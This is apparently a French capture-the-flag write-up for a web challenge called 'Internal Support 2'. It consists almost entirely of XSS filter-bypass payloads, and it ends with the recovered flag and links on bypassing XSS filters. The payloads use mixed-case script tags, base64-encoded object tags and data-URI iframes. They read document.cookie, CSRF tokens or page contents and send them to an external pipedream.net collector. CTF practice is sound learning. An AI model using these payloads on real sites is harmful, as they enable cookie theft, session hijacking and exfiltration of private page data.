 #  Internal Support 2

> Categorie(s): `web`

![Consigne](img/consigne.png)

Pour bypass le filtre XSS:

```html
<ScRipT>fetch('http://internalsupport22.chall.malicecyber.com/').then(res => res.text()).then(txt => fetch('https://9304534c47f86ff27c9d3ecd92ce82ae.m.pipedream.net/', { method: 'POST', body: JSON.stringify({data: btoa(txt)})}))</sCriPt>
```

```html
<ScRipT>window.location = "https://9304534c47f86ff27c9d3ecd92ce82ae.m.pipedream.net/cookie=" + btoa(document.cookie) + "&csrf-token=" + document.querySelector('#csrf_token').value</sCriPt>
```

```html
<ScRipT>window.onload = () => { const token = window.document.querySelector('#csrf_token').value || ''; window.location = "https://9304534c47f86ff27c9d3ecd92ce82ae.m.pipedream.net/?cookie=" + btoa(document.cookie) + "&csrf-token=" + token}</sCriPt>
```

```html
<ObJecT data="data:text/html;base64,ZmV0Y2goJ2h0dHA6Ly9pbnRlcm5hbHN1cHBvcnQyMi5jaGFsbC5tYWxpY2VjeWJlci5jb20vJykudGhlbihyZXMgPT4gcmVzLnRleHQoKSkudGhlbih0eHQgPT4gZmV0Y2goJ2h0dHBzOi8vOTMwNDUzNGM0N2Y4NmZmMjdjOWQzZWNkOTJjZTgyYWUubS5waXBlZHJlYW0ubmV0LycsIHsgbWV0aG9kOiAnUE9TVCcsIGJvZHk6IEpTT04uc3RyaW5naWZ5KHtkYXRhOiBidG9hKHR4dCl9KX0pKQ=="></oBjEct>
```
```html
<ObJecT data="data:text/html;base64,PFNjUmlwVD5mZXRjaCgnaHR0cDovL2ludGVybmFsc3VwcG9ydDIyLmNoYWxsLm1hbGljZWN5YmVyLmNvbS8nKS50aGVuKHJlcyA9PiByZXMudGV4dCgpKS50aGVuKHR4dCA9PiBmZXRjaCgnaHR0cHM6Ly85MzA0NTM0YzQ3Zjg2ZmYyN2M5ZDNlY2Q5MmNlODJhZS5tLnBpcGVkcmVhbS5uZXQvJywgeyBtZXRob2Q6ICdQT1NUJywgYm9keTogSlNPTi5zdHJpbmdpZnkoe2RhdGE6IGJ0b2EodHh0KX0pfSkpPC9zQ3JpUHQ+"></oBjEct>
```

```html
<ScRipT>window.location = 'https://9304534c47f86ff27c9d3ecd92ce82ae.m.pipedream.net/?src=' btoa(<iframe width=900 height=900 src="http://internalsupport22.chall.malicecyber.com/"></iframe>)</sCriPt>
```

```html
<IfRame sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/html,<ScRipT>fetch("http://internalsupport22.chall.malicecyber.com/").then(res => res.text()).then(txt => fetch("https://9304534c47f86ff27c9d3ecd92ce82ae.m.pipedream.net/", { method: "POST", body: JSON.stringify({data: btoa(txt)})}))</sCriPt>'></iFraMe>
```

____

```html
<ScRipT> fetch('/').then(res => res.text()).then(txt => fetch(window.location.pathname, { method: 'POST', body: JSON.stringify({response: btoa(txt)})}))</sCriPt>
```

```html
<ScRipT>fetch('/').then(res => res.text()).then(txt => {document.querySelector("[name=response]").value = btoa(txt); document.querySelector('form').submit()})</sCriPt>
```

```html
<ScRipT>
    window.onload = () => {
        const req = new XMLHttpRequest();
        req.open('GET', '/', false);
        req.send(null);
        const res = btoa(req.response);
        try {
            document.querySelector("[name=response]").value = btoa(res); document.querySelector('form').submit();
        } catch (error) {
            window.location = "https://9304534c47f86ff27c9d3ecd92ce82ae.m.pipedream.net/?res=" + res;
        }
    }
</sCriPt>
```

____

```html
<ScRipT>
const req = new XMLHttpRequest();
req.open('GET', '/', false); req.send(null);
const res =req.response;

const xhr = new XMLHttpRequest();
xhr.open("POST", "https://9304534c47f86ff27c9d3ecd92ce82ae.m.pipedream.net/", true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8");
xhr.send(res);
</sCriPt>
```

```html
<ScRipT>
fetch('/', { credentials: "include" })
    .then(res => res.text())
    .then(res =>
        fetch('https://9304534c47f86ff27c9d3ecd92ce82ae.m.pipedream.net/', { 
            method: 'POST',
            credentials: "include",
            body: JSON.stringify({flag: res})
        })
    )
</sCriPt>
```

flag: `BEtter_BUT_ST!LL_N0tttttttttt++Prfct!`

## Liens utiles

- [Advanced Techniques to Bypass & Defeat XSS Filters, Part 1](https://null-byte.wonderhowto.com/how-to/advanced-techniques-bypass-defeat-xss-filters-part-1-0190257/)
- [](https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)